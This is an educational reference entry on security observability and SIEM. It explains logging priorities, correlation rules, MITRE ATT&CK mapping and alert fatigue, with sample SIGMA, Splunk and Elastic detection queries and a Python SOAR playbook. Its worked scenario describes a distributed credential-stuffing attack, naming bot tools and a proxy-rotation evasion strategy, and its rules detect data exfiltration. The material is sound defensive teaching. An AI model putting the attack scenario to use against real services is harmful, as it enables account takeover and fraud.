

⚡ TL;DR - Security observability is the practice of instrumenting systems to answer:
"Was there a security event? What happened? Who did it? When? What was the impact?"
SIEM (Security Information and Event Management) is the platform that aggregates,
correlates, and alerts on security events. Key SIEMs: Splunk (most features/cost),
Elastic SIEM (open source, scalable), Microsoft Sentinel (Azure-native, ML-based),
AWS Security Lake (data lake approach). Must-log events: authentication failures,
privilege escalation, data export above threshold, admin actions, network connection
to suspicious IPs. Detection engineering: writing correlation rules (SIGMA format)
that convert threat intelligence into automated alerts. MITRE ATT&CK: the threat
taxonomy mapping techniques to detection logic. Alert fatigue: the primary failure
mode of SIEM operations - too many low-quality alerts → analysts ignore all alerts →
breaches go undetected. Fix: tune ruthlessly, alert only on High/Critical, SOAR
automation for routine responses, threat hunting for what rules miss. Mean Time to
Detect (MTTD): the key metric. IBM 2024: average MTTD = 194 days. Best-in-class: < 24 hours.

---

| #106 | Category: Security | Difficulty: ★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, Authentication, Session Management, TLS Configuration, OAuth Security, Business Logic, Insufficient Logging, CVSS Scoring, CVE + NVD, IR Process, Digital Forensics, AWS Security Services, Kubernetes Security, SAST in CICD | |
| **Used by:** | Security at Scale, DevSecOps Pipeline, Enterprise Security Architecture, Security Governance, Threat Intelligence Integration, CSIRT Design, Security Metrics + FAIR, Platform Security Engineering, SIEM Architecture Design | |
| **Related:** | OWASP Top 10, Authentication, TLS Configuration, OAuth Security, Business Logic, Insufficient Logging, CVSS Scoring, CVE + NVD, IR Process, Digital Forensics, AWS Security Services, Kubernetes Security, SAST in CICD, Security at Scale, Threat Intelligence, CSIRT Design, Security Metrics, Platform Security, SIEM Architecture | |

---

### 🔥 The Problem This Solves

**WHY SECURITY OBSERVABILITY IS NON-NEGOTIABLE:**

```
THE BLINDNESS PROBLEM:

  You deploy a web application.
  Traffic flows. Business operates. Revenue grows.
  
  QUESTION: Is anyone attacking you right now?
  
  Without security observability: YOU CANNOT ANSWER THIS.
  
  Without security logs:
    - Attacker brute-forces 10,000 login attempts: you don't know.
    - Attacker finds one valid credential (credential stuffing): you don't know.
    - Attacker uses the credential to export customer data: you don't know.
    - 3 months later: FBI calls. "We found your customer data on a darknet forum."
    - You: now you know.
    
  IBM 2024 Cost of a Data Breach Report:
    Average MTTD: 194 days.
    Average MTTR (total breach lifecycle): 258 days.
    Cost difference:
      Breaches detected in < 200 days: $3.93M average cost.
      Breaches detected in > 200 days: $4.82M average cost.
      Detection speed saves: $890,000 per breach on average.
    
  With security observability:
    10,000 failed logins from IP 185.100.87.72 in 5 minutes:
    → SIEM: correlation rule fires: "Brute force detected: > 1000 failed auth in 5 min"
    → Alert: Security team paged within 2 minutes.
    → Response: IP blocked, account locked, investigation opened.
    → Breach: PREVENTED before a single credential is compromised.
    
THE ALERT FATIGUE PROBLEM (why most SIEMs fail):

  Company enables SIEM. Ingests all logs.
  Enables all default correlation rules.
  
  Day 1: 500 alerts.
  Day 2: 523 alerts.
  Day 7: Analysts manually close 400 alerts without review.
  Day 14: Alerts routed to a queue nobody checks.
  Day 30: SIEM is running but functionally disabled.
  Day 180: Real attack - High severity alert fires.
  Day 180, hour 3: Analyst finally sees it (among 500 other alerts).
  Day 180, hour 6: Breach confirmed. MTTD: 3 hours (after alert).
  Effective MTTD from attacker entry: 6 hours.
  
  This is the most common SIEM failure mode.
  
  The fix:
    Alert only on HIGH/CRITICAL severity.
    All Medium/Low: dashboard visibility only, no pages.
    Target: SOC analyst reviews < 50 alerts per day, investigates 80%.
    Build automation (SOAR) for routine responses (block IP, lock account).
    Threat hunt for what rules miss (proactive search, not reactive alerting).
```

---

### 📘 Textbook Definition

**SIEM (Security Information and Event Management):** Platform that aggregates
log data from across an organization's infrastructure, applies correlation rules
to detect security events, and provides dashboards, alerting, and investigation
capabilities. Two components: (1) Security Information Management (log collection,
storage, search, reporting), (2) Security Event Management (real-time monitoring,
correlation, alerting). Modern SIEMs add: UEBA (User and Entity Behavior Analytics),
threat intelligence integration, SOAR (Security Orchestration Automation and Response).

**Security Observability:** The degree to which a security team can understand the
security state of a system by observing its external outputs (logs, metrics, traces).
Extends software observability (logs/metrics/traces) with security-specific signals:
authentication events, authorization decisions, data access patterns, network connections,
privilege changes. Key property: you can't detect what you don't log.

**Correlation Rule:** A rule that combines multiple events from potentially different
sources to identify patterns that indicate a security threat. Example: single event
"failed login" is normal. Correlated: "500 failed logins from the same IP in 5 minutes
followed by 1 successful login" = credential stuffing attack. SIEM correlation operates
on event streams with time windows.

**Detection Engineering:** The practice of systematically converting threat intelligence
and attacker TTPs (Tactics, Techniques, and Procedures) into detection logic (correlation
rules, queries, anomaly models) deployed in SIEM/EDR/SOAR. Treats detection rules
as code: version-controlled, tested, reviewed, deployed via CI/CD.

**SIGMA:** An open, vendor-neutral format for writing SIEM correlation rules. Rules are
YAML files specifying log source, conditions, and alert metadata. Convertible to: Splunk
SPL, Elastic DSL, Microsoft Sentinel KQL, QRadar AQL, Chronicle YARA-L. The "Yara for
logs" - write once, run anywhere.

**MITRE ATT&CK:** A publicly available knowledge base of adversary tactics, techniques,
and procedures (TTPs) observed in real-world attacks. Organized as: Tactics (14 phases
of an attack from Initial Access to Impact) → Techniques (individual attack methods per
tactic, e.g., T1078 Valid Accounts) → Sub-techniques (specific variations). Used for:
gap analysis ("do we detect T1078?"), red team planning, and detection coverage mapping.

**MTTD (Mean Time to Detect):** Average time from when an attacker first gains access
to when the security team detects the intrusion. The primary metric for security
observability effectiveness. IBM 2024 average: 194 days. Target for mature SOC: < 24 hours.
Reducing MTTD: better logging coverage + tuned correlation rules + threat hunting.

**SOAR (Security Orchestration Automation and Response):** Platforms that automate
security operations workflows. Integrates with SIEM (receives alerts), security tools
(firewalls, EDR, identity providers), and ticketing systems. Automates: IP blocking,
account lockout, evidence collection, ticket creation, notification. Reduces alert
triage time from 30 minutes to seconds for automatable responses.

**Threat Hunting:** Proactive, human-led investigation of potential threats in an
environment, without waiting for automated alerts to fire. Hypothesis-based: "attackers
using Living-off-the-Land binaries (LOLBins) in our environment would generate PowerShell
events with specific flags - let me search for these." Finds threats that rule-based
detection misses.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
SIEM aggregates security logs from all systems, correlates events to detect attacks in
real time, and alerts the security team - turning the question "was there an attack?"
from "impossible to know" to "answered in minutes."

**One analogy:**
> Security observability + SIEM is like a city's 911 system combined with a surveillance network.
>
> Without it: if a crime happens in the city, you only find out when a resident calls days later.
> With it:
> Cameras (logging): every street, building entrance, and public space records what happens.
> 911 dispatch center (SIEM): receives feeds from all cameras, correlates incidents.
> Dispatch rules (correlation rules): "3 or more cameras show the same vehicle
> within 1 minute in different locations → dispatch police."
> Operators (SOC analysts): review the highest priority alerts, investigate, respond.
> SOAR (automated response): "vehicle's license plate matches stolen vehicle list →
> automatically trigger roadblock alert" (without waiting for human analyst).
> Threat hunting: a detective proactively reviews camera footage for known criminal
> patterns without waiting for an alert - finding things the automated rules missed.
>
> The alert fatigue problem (city analogy):
> "All cameras send every motion detection as an alert."
> 10,000 alerts per day. Dispatch overwhelmed.
> Real crimes: buried in noise. Response time: hours.
> Fix: only alert on patterns matching pre-defined crime signatures.
> Everything else: recorded but not alerted. Searchable when needed.

---

### 🔩 First Principles Explanation

**Security observability architecture and data flow:**

```
SECURITY OBSERVABILITY STACK:

  DATA SOURCES (What to log - by priority):
  
  TIER 1 (MUST LOG - cannot detect attacks without these):
  ┌────────────────────────────────────────────────────┐
  │ Authentication events:                              │
  │   - Login success/failure (with username, IP, time) │
  │   - MFA success/failure                             │
  │   - Password reset                                  │
  │   - Session creation/destruction                   │
  │                                                    │
  │ Authorization events:                               │
  │   - Access to sensitive resources (PHI, PCI data)  │
  │   - Privilege escalation (sudo, role assumption)   │
  │   - Permission denied events                       │
  │                                                    │
  │ Administrative actions:                             │
  │   - User creation/deletion                         │
  │   - Permission changes (IAM policy modifications)  │
  │   - System configuration changes                   │
  │   - Service start/stop                             │
  └────────────────────────────────────────────────────┘
  
  TIER 2 (SHOULD LOG - required for many detection rules):
  ┌────────────────────────────────────────────────────┐
  │ Network events: DNS queries, outbound connections  │
  │ Process execution: command line arguments          │
  │ File system: writes to sensitive directories       │
  │ API calls: cloud provider API audit logs           │
  │ Database: queries against sensitive tables         │
  └────────────────────────────────────────────────────┘
  
  TIER 3 (GOOD TO HAVE - enables advanced hunting):
  ┌────────────────────────────────────────────────────┐
  │ Full network flow logs (VPC Flow Logs, NetFlow)    │
  │ System call traces (auditd, EDR)                   │
  │ Container runtime events (Falco)                   │
  │ Application-level business events                  │
  └────────────────────────────────────────────────────┘
  
  COLLECTION → NORMALIZATION → CORRELATION → ALERTING:
  
  Sources → Log shipper → SIEM ingest → Normalize → Correlate → Alert
  (syslog / filebeat / CloudWatch → Kafka → Splunk/Elastic → ECS → rules → PagerDuty)
  
  KEY DETECTION PATTERNS (correlation rules):
  
  1. Brute force / credential stuffing:
     Condition: failed_auth_count > 100 from same IP in 5 minutes
     
  2. Impossible travel (account takeover signal):
     Condition: successful_login from IP_A (New York)
               followed within 5 minutes by
               successful_login from IP_B (London)
               for the same user
               
  3. Data exfiltration:
     Condition: user downloads > 1GB from S3 in 1 hour
               (baseline: this user averages 50MB/hour)
               
  4. Privilege escalation:
     Condition: user granted admin role
               (source: IAM audit log)
               NOT followed by Change Management ticket
               (source: ServiceNow API)
               
  5. Lateral movement (new internal connections):
     Condition: host A connecting to host B
               where this connection has NEVER occurred in 30-day baseline
```

---

### 🧪 Thought Experiment

**SCENARIO: Detecting a sophisticated credential stuffing attack with SIEM:**

```
ATTACK SCENARIO:

  Attacker: purchases 50 million email/password combos from darknet.
  Target: your e-commerce platform.
  Attack tool: credential stuffing bot (Sentry MBA, Snipr, or custom).
  Strategy: distributed attack from 2,000 residential proxy IPs.
            Each IP makes 5-10 attempts → avoids simple IP-based rate limiting.
            Attack duration: 72 hours, 5 attempts per IP per hour.
  
  Total attempts: 2,000 IPs × 5 attempts/hour × 72 hours = 720,000 attempts.
  Success rate (typical): 0.1% to 2% = 720 to 14,400 compromised accounts.
  
WITHOUT SIEM DETECTION:
  
  Application logs: millions of 401 Unauthorized responses.
  Nobody looking. No alerting.
  Attacker: quietly harvests 14,000 valid credentials.
  Uses accounts: fraudulent purchases, data export, sells accounts.
  Time until discovery: 90-180 days (when customers report fraud).
  
WITH SIEM CORRELATION RULES:
  
  Rule 1: Distributed Brute Force Detection
    Window: 15 minutes
    Condition:
      total failed logins > 10,000 in window
      AND distinct IPs > 500
      AND distinct source ASNs < 20 (all from proxy ASNs)
    Severity: HIGH
    → Alert fires at T+3 minutes after attack starts
    
  Rule 2: Successful Login After Multiple Failures
    Window: 60 minutes  
    Condition:
      same username: >= 5 failed logins from different IPs
      followed by 1 successful login from a new IP
    Severity: MEDIUM (per account) → HIGH if > 100 accounts match
    → Alert fires at T+10 minutes (first successful compromise)
    
  Rule 3: New Device Login (UEBA)
    Condition: user logs in from device fingerprint never seen before
              AND login from country different from user's history
    Severity: MEDIUM
    → Alert per account, aggregated: 100 new device logins = HIGH
    
AUTOMATED RESPONSE (SOAR):

  Rule 2 fires: SOAR playbook:
  1. Lock the specific compromised account (API call to auth service).
  2. Force password reset email.
  3. Log all actions taken by this account in last 60 minutes.
  4. Create Jira ticket with timeline and evidence.
  5. Notify account owner via email.
  
  Rule 1 fires: SOAR playbook:
  1. Enable CAPTCHA for all login attempts (API call to WAF).
  2. Flag all logins from proxy ASNs for step-up authentication (MFA challenge).
  3. Notify security team with attack statistics (rate, volume, IPs).
  4. Export proxy IP list to WAF block list if ASN confidence > 90%.
  
OUTCOME WITH SIEM + SOAR:
  Attack detected: T+3 minutes.
  Automated containment: T+4 minutes.
  Manual review: T+15 minutes.
  Affected accounts: < 50 (SOAR locked them before attacker used them).
  Customer impact: 50 account resets. No fraud.
  
OUTCOME WITHOUT SIEM:
  Detection: 90-180 days.
  Affected accounts: 14,000 with fraudulent activity.
  Customer impact: chargebacks, fraud, PII exposure, reputational damage.
```

---

### 🧠 Mental Model / Analogy

> Building detection engineering (writing SIEM rules) is like building a network of tripwires.
>
> You don't wait for burglars to enter and then respond.
> You design the house so that every meaningful action - opening a window, stepping on the floor,
> approaching the safe - triggers a response.
>
> But the trick is: not every action should be an alarm.
> The cat walking across the kitchen shouldn't page the security team at 3 AM.
> Only meaningful patterns should alert.
>
> Detection engineering = choosing WHERE to put tripwires AND calibrating sensitivity:
>
> HIGH sensitivity, wrong placement: alert fatigue.
> Every SSH login from any IP → 10,000 alerts/day → all ignored.
> "Alert fatigue" = the security equivalent of a car alarm nobody responds to.
>
> LOW sensitivity, right placement: clean signal.
> "SSH login from a Tor exit node IP, after 500 failed attempts, to the bastion host,
> from an account that has never logged in from this region before."
> → 2 alerts per day → analyst investigates both → 80% are real incidents.
>
> The MITRE ATT&CK framework: the map of WHERE attackers walk (their TTPs).
> Detection engineering: place tripwires at the most-walked attacker paths.
> Coverage gap analysis: "we have no detection for T1071.001 (Application Layer Protocol C2 over HTTPS).
> Attackers using this technique walk through our house undetected."
> Action: write a rule for this technique. The tripwire is now placed.
>
> Threat hunting: the security engineer who walks the house themselves,
> looking for signs that burglars have already been there and the tripwires missed them.
> Finding: "these logs show PowerShell executing encoded commands at 3 AM on 14 servers.
> No alert fired. Writing a new rule for this pattern."
> The hunting session creates a new tripwire.
> Detection improves through each cycle.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
A SIEM collects all your system logs in one place and automatically looks for signs of cyberattacks. Instead of a security analyst manually reading millions of log lines every day (impossible), the SIEM runs rules that say: "if we see more than 100 failed logins from the same IP in 5 minutes, alert the team immediately." This is how companies detect hacking attempts in real time instead of finding out months later when customers report fraud.

**Level 2 - How to use it (junior developer):**
Make sure your application logs security events: authentication success/failure with IP address, authorization failures with user and resource, admin actions (user created, permission changed, config modified), and errors that might indicate probing. Use structured logging (JSON): `{"event": "auth.failure", "username": "alice", "ip": "1.2.3.4", "timestamp": "2024-01-01T12:00:00Z"}`. Ship logs via Filebeat/Fluentd to the SIEM. Never log: passwords, tokens, full credit card numbers, SSNs. Log correlation IDs (trace IDs) to link request chains across services. Configure CloudTrail for all AWS API calls - mandatory baseline.

**Level 3 - How it works (mid-level engineer):**
SIEM ingestion: log shippers → message queue (Kafka) → SIEM indexer. Normalization: raw logs (various formats) → ECS (Elastic Common Schema) or CIM (Splunk Common Information Model) - standardizes field names across sources. Correlation engine: event streaming engine (stateful, windowed) evaluates rules over event streams. Rule example (Splunk SPL): `index=auth earliest=-5m | stats count(eval(action="failure")) as fail_count by src_ip | where fail_count > 100`. SIGMA rules: vendor-neutral YAML → compile to Splunk/Elastic/Sentinel DSL. UEBA: machine learning baseline of user behavior, anomaly score when behavior deviates (time of day, volume, new resources accessed). Alert routing: severity-based → High/Critical → PagerDuty. Medium/Low → Jira ticket. All → SOAR for automated enrichment (IP geolocation, threat intel lookup, WHOIS).

**Level 4 - Why it was designed this way (senior/staff):**
The SIEM data lake architecture (Elastic, AWS Security Lake): decouple storage from analysis. Store ALL logs cheaply (S3 at $23/TB/month). Query only what you need. Traditional SIEM (Splunk): index-time storage → fast search but expensive ($5-50/GB indexed). Modern approach: tier storage (hot/warm/cold). Hot (7 days, high cardinality search): expensive, full-featured. Cold (1 year, Parquet on S3): cheap, query via Athena or Opensearch. OCSF (Open Cybersecurity Schema Framework, AWS-backed): next-gen ECS - normalizes logs across vendors at schema level. AWS Security Lake: aggregates VPC Flow + CloudTrail + Route53 + Security Hub findings + third-party into OCSF format in S3. Query via Athena or partner SIEMs. The detection engineering lifecycle problem: rules age poorly. Threat landscape changes monthly. Rules written for Windows 7 attack patterns miss Windows 11 + EDR-bypass techniques. MITRE ATT&CK versioning: published quarterly. Detection engineering teams: update rules per ATT&CK version. Organizations without dedicated detection engineering: rules stagnate → detection gap grows.

**Level 5 - Mastery (distinguished engineer):**
Detection-as-Code (DaC): SIGMA rules in git, PR-reviewed, CI/CD tested against a log sample corpus, deployed to SIEM automatically. This is the only scalable approach to detection engineering. Manual rule creation via SIEM UI: no version history, no review, no regression testing. Detection drift: rules that fired last month silently stop firing when log format changes → undetected. DaC fixes: CI test validates rule syntax + parses against sample logs → rule change that breaks parsing fails CI. False positive tuning at scale: A/B test rules against historical log sample. "Rule X generates 50 false positives per day vs Rule Y (tighter): 3 false positives, same true positive rate." Ship Rule Y. Adversarial ML in SIEM: attackers evade UEBA baselines by slowly shifting behavior (slow burn evasion): if UEBA baseline updates too aggressively → attacker's gradually increasing data exfiltration becomes the new "normal." Fix: bounded baseline update rate + detection of progressive behavioral drift. Graph-based detection (AWS Neptune + security events): detect multi-hop lateral movement that time-window correlation rules miss ("user A's credentials used to access host B, then host B's service account accessed host C's data, then host C's data was exfiltrated to external IP"). Graph traversal finds the attack chain even if each hop is days apart.

---

### ⚙️ How It Works (Mechanism)

```
SIEM ARCHITECTURE (DATA FLOW):

  Log Sources              Collection         Processing
  ────────────────────────────────────────────────────
  Auth Service (JSON) ─→ Filebeat/Fluentd ─→ Kafka ─→ SIEM Ingest
  CloudTrail (S3) ─────→ Lambda ──────────→ Kafka ─→  └─ Normalize
  GuardDuty ───────────→ EventBridge ─────→ Kafka ─→     (ECS/CIM)
  Linux auditd ────────→ Auditbeat ───────→ Kafka ─→       ↓
  Network (VPC Flow) ──→ S3 ─────────────→ Kafka ─→  Correlation Engine
                                                       (streaming rules)
                                                             ↓
                                               High/Critical → SOAR + Page
                                               Medium/Low → Ticket + Dashboard
```



---

### 💻 Code Example

**SIGMA detection rule and Splunk SPL query:**

```yaml
# sigma-rules/credential-stuffing-detection.yml
# SIGMA rule: distributed credential stuffing attack detection.
# Converts to: Splunk SPL, Elastic DSL, Microsoft Sentinel KQL.

title: Distributed Credential Stuffing Attack
id: 5c8e2a4b-1f39-4e7b-9c2d-3a7f4d8e1b56
status: production
description: >
  Detects distributed credential stuffing attacks characterized by
  high-volume failed authentication attempts from multiple IPs
  followed by successful authentications, indicating stolen
  credential usage. Pattern consistent with credential stuffing
  tools targeting web application login endpoints.
date: 2024-01-15
author: Security Engineering Team
references:
  - https://owasp.org/www-community/attacks/Credential_stuffing
  - https://attack.mitre.org/techniques/T1110/004/
tags:
  - attack.credential_access
  - attack.t1110.004  # Credential Stuffing
  - attack.initial_access
logsource:
  category: web
  product: application
  service: auth
detection:
  selection_failed:
    event.action: "authentication_failure"
    event.outcome: "failure"
  timeframe: 5m
  condition: selection_failed | count() by source.ip > 100
falsepositives:
  - Load testing against authentication endpoint
  - Automated integration testing using real accounts (should use test accounts)
level: high
```

```spl
# Splunk SPL: credential stuffing with successful compromise detection.
# This finds: distributed failed logins + successful login from new IP.

index=auth earliest=-1h@h
| eval is_failure=if(action="authentication_failure", 1, 0)
| eval is_success=if(action="authentication_success", 1, 0)
| stats
    sum(is_failure) as failed_count,
    sum(is_success) as success_count,
    dc(src_ip) as distinct_ips,
    values(src_ip) as source_ips,
    values(user) as users
  by _time span=5m
| where failed_count > 1000 AND distinct_ips > 50
| eval severity=case(
    failed_count > 10000, "CRITICAL",
    failed_count > 1000, "HIGH",
    true(), "MEDIUM"
  )
| table _time, failed_count, success_count, distinct_ips, severity
| sort -failed_count
```

```python
# SOAR automated response playbook (Python / Splunk SOAR).
# Triggered when credential stuffing rule fires.

import phantom.rules as phantom
import json

def on_start(container):
    """Entry point: called when SIEM alert triggers this playbook."""
    
    # Extract alert details from SIEM finding:
    src_ips = container.get("data", {}).get("source_ips", [])
    affected_users = container.get("data", {}).get("compromised_users", [])
    severity = container.get("data", {}).get("severity", "HIGH")
    
    # Step 1: Enrich IPs with threat intelligence
    for ip in src_ips[:20]:  # Limit to top 20 IPs
        phantom.act(
            action="lookup ip",
            app="VirusTotal",
            parameters=[{"ip": ip}],
            callback=handle_ip_lookup_result
        )
    
    # Step 2: Lock compromised user accounts
    if affected_users and severity in ["HIGH", "CRITICAL"]:
        for user in affected_users:
            phantom.act(
                action="disable account",
                app="Okta",
                parameters=[{"username": user}],
                callback=handle_account_lock
            )
    
    # Step 3: Create incident ticket
    phantom.act(
        action="create ticket",
        app="Jira",
        parameters=[{
            "project": "SEC",
            "type": "Incident",
            "summary": f"Credential Stuffing Attack - {severity}",
            "description": f"Source IPs: {src_ips[:5]}...\n"
                          f"Affected users: {len(affected_users)}",
            "priority": "High" if severity == "CRITICAL" else "Medium"
        }]
    )
    
    # Step 4: Block attacking IPs in WAF (if confidence > 90%)
    high_confidence_ips = [
        ip for ip in src_ips
        if get_threat_intel_score(ip) > 90
    ]
    if high_confidence_ips:
        phantom.act(
            action="block ip",
            app="AWS WAF",
            parameters=[{
                "ips": high_confidence_ips,
                "rule_group": "credential-stuffing-block",
                "duration_minutes": 1440  # 24 hours
            }]
        )
    
    return phantom.APP_SUCCESS

def handle_account_lock(action, success, container, results):
    """Callback after account lock action."""
    if success:
        username = results[0]["parameter"]["username"]
        # Send password reset email:
        phantom.act(
            action="send email",
            app="Office365",
            parameters=[{
                "to": f"{username}@company.com",
                "subject": "Important: Account Temporarily Locked",
                "body": (
                    "Your account was temporarily locked due to "
                    "a security event. If you did not attempt to "
                    "log in, please contact security@company.com "
                    "immediately. Click here to reset your password..."
                )
            }]
        )
```

---

### ⚖️ Comparison Table

| SIEM | Deployment | Cost Model | Strength | Weakness | Best For |
|:---|:---|:---|:---|:---|:---|
| **Splunk** | On-prem / Cloud | Per GB indexed ($3-10/GB/day) | Most features, fastest search, ecosystem | Very expensive at scale | Large enterprise, advanced analytics |
| **Elastic SIEM** | Self-hosted / Cloud | Infrastructure cost | Open source, scalable, flexible | Operational overhead to run | Teams with Elastic expertise, cost-sensitive |
| **Microsoft Sentinel** | Azure-native | Per GB analyzed ($2.46/GB) | Azure integration, AI/ML built-in, SOAR included | Azure lock-in | Azure-heavy organizations |
| **AWS Security Lake + OpenSearch** | AWS | Per TB storage + query | Native AWS integration, OCSF normalized | Newer, less mature ecosystem | AWS-native organizations |
| **Sumo Logic** | SaaS | Per GB/day | Low ops overhead | Less customizable | SMB, limited security team |
| **Chronicle (Google)** | GCP | Per user/year | Petabyte-scale, threat intel from Google | GCP lock-in | Google/threat intel heavy shops |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "We have a SIEM, so we have security monitoring." | A SIEM is the tool, not the capability. A SIEM with no tuned rules, no SOAR integration, no on-call rotation, and analysts who close alerts without investigation provides LESS security than no SIEM (false confidence that monitoring is in place). The question is not "do we have a SIEM?" but "do we have detection coverage for the MITRE ATT&CK techniques attackers use against our threat model? What is our MTTD? What is our alert closure rate with investigation vs auto-close?" Organizations that can't answer these questions have a SIEM but not a security monitoring program. The SIEM requires: detection rules (maintained and tested), alert triage SLAs (High: 4 hours, Critical: 30 minutes), SOAR automation (routine responses automated), threat hunting schedule (weekly/monthly), and regular ATT&CK coverage reviews. Without these operational practices: the SIEM is expensive log storage. |
| "Logging everything is always better." | Logging everything: (1) increases storage costs significantly (VPC Flow Logs at full resolution: $50-200/month per active account), (2) increases noise in SIEM (more events = harder to find signal), (3) can introduce privacy/compliance issues (logging user request bodies may capture PII, violating GDPR data minimization principles). The principle: log what you need to detect attacks, not everything that happens. Start with Tier 1 (authentication, authorization, admin actions). Add Tier 2 (network, process, file) for specific threats. Add Tier 3 (full application telemetry) only for systems with the highest risk profile or active incident investigation. Logging strategy should be threat-driven: "what logs do we need to detect T1078 (valid accounts abuse)?" Answer: authentication logs with geolocation and device fingerprint. Not: full packet capture. Design logging coverage against your threat model, not against "log everything." |

---

### 🚨 Failure Modes & Diagnosis

**Security observability diagnostic queries:**

```
SPLUNK: FIND AUTHENTICATION ANOMALIES:

  # Top source IPs for failed logins (last 24h):
  index=auth action=authentication_failure earliest=-24h
  | stats count by src_ip
  | sort -count
  | head 20
  
  # Impossible travel detection:
  index=auth action=authentication_success earliest=-1h
  | stats values(src_ip) as ips, values(geo_country) as countries, 
          dc(geo_country) as country_count
    by user
  | where country_count > 1
  | table user, ips, countries
  
  # Large data export events:
  index=s3_access requestType=GetObject earliest=-24h
  | stats sum(bytessent) as total_bytes by user
  | where total_bytes > 1000000000
  | table user, total_bytes
  | eval total_GB = round(total_bytes / 1073741824, 2)
  | sort -total_bytes

ELASTIC: KQL DETECTION QUERIES:

  # Brute force detection (Elasticsearch DSL):
  GET /auth-logs-*/_search
  {
    "aggs": {
      "failed_by_ip": {
        "filter": {
          "bool": {
            "must": [
              {"term": {"event.action": "authentication_failure"}},
              {"range": {"@timestamp": {"gte": "now-5m"}}}
            ]
          }
        },
        "aggs": {
          "by_ip": {
            "terms": {"field": "source.ip", "size": 10},
            "aggs": {
              "count": {"value_count": {"field": "_id"}}
            }
          }
        }
      }
    }
  }

COVERAGE GAP ANALYSIS:

  Map current detection rules to MITRE ATT&CK techniques.
  For each tactic (Initial Access, Execution, etc.):
    List techniques covered by current rules.
    List techniques with NO coverage.
    Prioritize top uncovered techniques by threat intel frequency.
  
  Tools: MITRE ATT&CK Navigator (attack.mitre.org/matrices/enterprise/).
  Upload rule coverage JSON → heatmap shows gaps.
  
  Target: 100% coverage of Tier 1 ATT&CK techniques
          (most frequently observed in threat intelligence reports).
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `IR Process` (SEC-101) - SIEM findings trigger IR workflow
- `AWS Security Services` (SEC-103) - GuardDuty/CloudTrail feed the SIEM

**Builds on this:**
- `Threat Intelligence Integration` (SEC-120) - feeds detection rules
- `CSIRT Design` (SEC-121) - SIEM is the detection backbone of CSIRT
- `Security Metrics + FAIR` (SEC-122) - MTTD/MTTR from SIEM data
- `SIEM Architecture Design` (SEC-128) - deep dive into SIEM design

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ MUST LOG      │ Auth success/failure (IP, user, time)    │
│               │ Privilege escalation, admin actions      │
│               │ Data export above threshold              │
│               │ Permission denied events                 │
├───────────────┼──────────────────────────────────────────┤
│ KEY METRICS   │ MTTD: target < 24 hours (avg: 194 days)  │
│               │ Alert Volume: < 50 actionable/analyst/day│
│               │ Coverage: map rules to MITRE ATT&CK      │
├───────────────┼──────────────────────────────────────────┤
│ ALERT FATIGUE │ Gate: only HIGH/CRITICAL → page          │
│               │ SOAR: automate routine responses         │
│               │ Tune: suppress known-false-positives     │
├───────────────┼──────────────────────────────────────────┤
│ TOOLS         │ Splunk: enterprise, expensive, powerful  │
│               │ Elastic SIEM: open source, operational   │
│               │ Sentinel: Azure-native, ML, SOAR built-in│
├───────────────┼──────────────────────────────────────────┤
│ DETECTION ENG │ SIGMA: vendor-neutral rule format        │
│               │ MITRE ATT&CK: threat taxonomy for rules  │
│               │ Threat hunting: finds what rules miss    │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"You cannot optimize what you cannot observe. You cannot defend what you cannot see."
This principle originates in control theory (Kalman, 1960) and Peter Drucker's management
maxim, but its security application is foundational.
Every security monitoring failure can be traced to one of three observability gaps:
(1) The event wasn't logged. (2) The event was logged but not collected. (3) The event was
collected but no rule detected the pattern.
This maps directly to software observability's three pillars (Charity Majors, 2018):
Logging (were events recorded?) → Collection (did the data reach the analysis layer?) →
Correlation (can we extract meaning from the data?).
